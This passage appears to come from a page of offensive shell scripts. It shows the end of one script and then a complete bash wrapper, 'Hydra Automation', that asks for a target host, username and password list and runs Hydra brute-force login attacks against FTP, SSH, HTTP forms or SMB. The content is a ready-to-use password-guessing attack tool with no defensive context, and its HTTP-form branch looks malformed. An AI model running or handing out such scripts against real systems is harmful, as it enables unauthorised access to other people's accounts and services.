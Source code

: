 ```bash
        ;;
    *)
        echo "Invalid option selected."
        ;;
esac
```

### Hydra Automation

```bash
#!/bin/bash

echo "Let's perform a Hydra brute force attack..."

echo "-----------------------------------------------
Select the type of attack you want to perform:
1. FTP
2. SSH
3. HTTP
4. SMB
------------------------------------------------"

read -p "Option you selected ==> " option

read -p "Enter the target IP or hostname: " target
read -p "Enter the username: " username
read -p "Enter the password list path: " passlist

case "$option" in
    1)
        echo "Performing FTP brute force attack..."
        hydra -l "$username" -P "$passlist" ftp://"$target"
        ;;
    2)
        echo "Performing SSH brute force attack..."
        hydra -l "$username" -P "$passlist" ssh://"$target"
        ;;
    3)
        echo "Performing HTTP brute force attack..."
        read -p "Enter the URL path (e.g., /login): " urlpath
        hydra -l "$username" -P "$passlist" http-form-post "$target$urlpath"
        ;;
    4)
        echo "Performing SMB brute force attack..."
        hydra -l "$username" -P "$passlist" smb://"$target"
        ;;
    *)
        echo "Invalid option selected."
        ;;
esac
```

